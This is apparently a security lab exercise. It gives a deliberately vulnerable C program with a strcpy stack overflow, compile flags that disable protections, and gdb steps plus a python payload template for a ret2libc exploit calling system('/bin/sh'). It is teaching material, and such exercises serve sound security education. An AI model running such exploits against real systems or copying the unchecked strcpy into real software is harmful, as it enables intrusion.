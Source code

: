 
## Exercise 1 - NX Bit

Consider the following `overflow.c` code:

```C
#include <string.h>

int overflow(char* input){
  char buf[25];
  strcpy(buf, input);
  return 1;  
}

int main(int argc, char** argv){
  overflow(argv[1]);
  return 1;
}
```
- Compile the code disabling every security measure, with the command:
  - `gcc -m64 -fno-stack-protector -no-pie -Wl,-z,norelro overflow.c`
- Enter in a `gdb` session for the binary, run the `checksec` command to check the security measures
  - Is the stack an executable region? Are addresses randomized?
- Generate a pattern of 200 bytes with `pattern create 200`, we will use this to overwrite the `RBP`
  - Set a breakpoint to `strcpy()`, issue the input pattern with `r '[paste_patern]'`
  - Inspect the `RBP` register, get the offset value with `pattern offset [rbp_value]`
  - Add 8 bytes to the offset value, overwrite the `RIP` register with a canonical address.
    - Hint: the `r` command of `gdb` can take input from shell commands: $(command_here), can you use python to generate the string?
  - After controlling the `RIP`, since the stack is not executable, we will reach the function `system()` and pass `"/bin/sh"` to it.
    - Get the address of `system()` in `LIBC` by setting a breakpoint at `main()`, running the binary, then `p system`
    - Search in the `libc` memory for the `"/bin/sh"` string, with the command `find [system_address],+99999999,"/bin/sh"`
    - Run the command `r $(echo python2 -c "print 'A'*[offset+8]+[system_address]+'AAAA'+[/bin/sh_address]")`
  - Make the binary execute a shell by supplying the input string outside the debuuger.
